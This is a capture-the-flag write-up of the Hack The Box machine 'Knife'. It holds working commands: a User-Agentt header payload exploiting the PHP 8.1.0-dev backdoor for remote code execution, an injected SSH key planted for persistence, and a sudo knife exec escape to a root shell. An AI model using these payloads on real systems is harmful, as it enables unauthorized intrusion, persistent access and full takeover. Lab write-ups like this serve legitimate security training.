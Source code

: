 ```yaml
---
tags:
  - hack
  - linux
---
```

# HTB: [Knife](https://app.hackthebox.com/machines/Knife)

> [!tip]- Summary with Spoilers
> - This machine was running PHP version `8.1.0-dev`, which includes a known backdoor vulnerability.
> - I used a crafted `User-Agentt` header to achieve RCE and gain access as the `james` user.
> - Privilege escalation was achieved by exploiting the `knife` command with `sudo`, following the [GTFOBins](https://gtfobins.github.io/gtfobins/knife/) instructions for a root shell.

## Enumeration

```console
$ sudo nmap -n -sC -sV -F $t
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-02 12:37 CST
Nmap scan report for 10.10.10.242
Host is up (0.12s latency).
Not shown: 98 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's check the PHP version:

```console
$ curl -si http://$t | grep X-Pow
X-Powered-By: PHP/8.1.0-dev
```

## Exploitation

[PHP version 8.1.0-dev has a remote code execution vulnerability](https://www.exploit-db.com/exploits/49933). It's actually a malicious backdoor that was quickly discovered and removed in 2021.[^1]

It is easily exploited using a sneaky HTTP header:

```console
$ curl -s -H 'User-Agentt: zerodiumsystem("id");' http://$t  | head -n1
uid=1000(james) gid=1000(james) groups=1000(james)

$ curl -s -H 'User-Agentt: zerodiumsystem("cat /home/james/user.txt");' http://$t  | head -n1
a5c3a0[...]
```

I could also create a reverse-shell using the technique above. But why do that when I could get a proper SSH login shell?

```console
$ curl -si -H 'User-Agentt: zerodiumsystem("echo ssh-ed25519\ AAAAC3NzaC1lZDI1NTE5AAAAIHO5Uph4qLCUAKHPPFPwZkQjYzBhDJfnIlH3BQY9WT0T\ e@notahacker >> /home/james/.ssh/authorized_keys");' http://$t  | head -n1
HTTP/1.1 200 OK

$ ssh james@$t
The authenticity of host '10.10.10.242 (10.10.10.242)' can't be established.
ED25519 key fingerprint is SHA256:U3tuGrGxSv//jAzSQDRiUNlQnE6LWwounrcc2Bd0qC4.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.242' (ED25519) to the list of known hosts.
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)
[...]

james@knife:~$ cat .ssh/authorized_keys 
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHO5Uph4qLCUAKHPPFPwZkQjYzBhDJfnIlH3BQY9WT0T e@notahacker
```

## Privilege Escalation

```console
james@knife:~$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

`knife` is a utility used with [Chef](https://docs.chef.io/workstation/knife/).

```console
james@knife:~$ /usr/bin/knife --help
Chef Infra Client: 16.10.8

Docs: https://docs.chef.io/workstation/knife/
Patents: https://www.chef.io/patents

Usage: knife sub-command (options)
[...]
```

There is an [entry for knife in GTFOBins](https://gtfobins.github.io/gtfobins/knife/). Like so:

```console
james@knife:~$ sudo knife exec -E 'exec "/bin/sh"'
## id
uid=0(root) gid=0(root) groups=0(root)
## cat /root/root.txt
a5c3a0[...]
```
